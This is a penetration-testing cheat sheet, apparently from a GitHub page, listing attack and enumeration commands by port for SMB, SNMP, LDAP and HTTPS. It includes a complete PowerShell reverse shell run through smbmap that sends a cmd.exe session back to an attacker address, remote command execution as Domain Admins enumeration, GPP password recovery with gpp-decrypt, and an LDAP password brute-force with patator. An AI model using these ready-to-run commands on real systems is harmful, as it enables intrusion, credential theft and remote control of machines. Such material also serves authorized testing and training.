 ```bash
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H $IP 
    # Drive Listing
smbmap.py -H $IP -u username -p 'P@$$w0rd1234!' -L 
    # Reverse Shell
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H $IP -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

```
### Port 161/162 UDP - SNMP
```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes $IP

snmp-check $IP -c public|private|community

snmpwalk -v 2c -c public $ip

```
### LDAP - 389,636

```bash
ldapsearch -h $IP -p 389 -x -b "dc=mywebsite,dc=com"

ldapsearch -x -h $IP -D 'DOMAIN\user' -w 'hash-password'

ldapdomaindump $IP -u 'DOMAIN\user' -p 'hash-password'
#brut
patator ldap_login host=$IP 1=/root/Downloads/passwords_ssh.txt user=hsmith password=FILE1 -x ignore:mesg='Authentication failed.'
```

### HTTPS - 443 
- Read the actual SSL CERT to:
    * find out potential correct vhost to GET
    * is the clock skewed
    * any names that could be usernames for bruteforce/guessing.
